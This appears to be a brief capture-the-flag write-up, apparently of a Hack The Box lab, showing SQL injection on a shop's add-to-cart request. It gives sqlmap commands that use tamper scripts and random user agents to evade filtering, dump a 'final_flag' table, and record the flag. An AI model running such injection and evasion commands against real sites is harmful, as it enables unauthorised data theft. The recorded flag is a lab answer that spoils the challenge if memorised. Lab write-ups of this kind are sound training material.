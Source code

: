 ## Initial Enumeration

When going to http://83.136.255.150:34096/shop.html, and then clicking add to cart, there is a post request:
![[Pasted image 20240508234901.png]]

Saved the request to a file:
![[Pasted image 20240508234942.png]]

Running SQLMAp:
```shell-session
# sqlmap -r postReq.txt
```

Got some basic information about the data base but no success in reading final_flag table.

## Getting the Databases Name

Trying some bypass techniques:
```shell-session
# sqlmap -r postReq.txt --dbs --random-agent --tamper=between,randomcase
```

Database name: production.

## Getting the Flag

We will use the same idea, but this time dumping the contents of the final_flag table:
```shell-session
# sqlmap -r postReq.txt -D production -T final_flag --dump --random-agent --tamper=between,randomcase
```

Flag retrieved: HTB{n07_50_h4rd_r16h7?!}
